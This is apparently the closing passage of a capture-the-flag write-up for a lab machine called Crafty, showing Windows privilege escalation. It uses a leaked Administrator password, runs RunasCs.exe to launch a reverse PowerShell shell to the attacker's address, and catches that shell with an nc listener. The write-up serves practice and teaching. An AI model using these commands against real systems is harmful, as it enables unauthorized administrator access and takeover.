 ![jd-gui](/assets/images/Crafty/3.png)

Here we can appreciate a password. Since it's writing into `C:\inetput\wwwroot`, we can assume is a privileged account, so we can use [RunasCs](https://github.com/antonioCoco/RunasCs) to get a shell as Administrator:

```bash
c:\Users\svc_minecraft\Documents>copy x:\RunasCs.exe .
        1 file(s) copied.
c:\Users\svc_minecraft\Documents>
```

Now we trigger runas:

```bash
c:\Users\svc_minecraft\Documents>.\RunasCs.exe Administrator s67u84zKq8IXw powershell.exe -r 10.10.14.124:443
[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4324 created in background.
c:\Users\svc_minecraft\Documents>
```

And finally, we are administrator:

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.124] from (UNKNOWN) [10.10.11.249] 49684
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
crafty\administrator
PS C:\Windows\system32> 
```
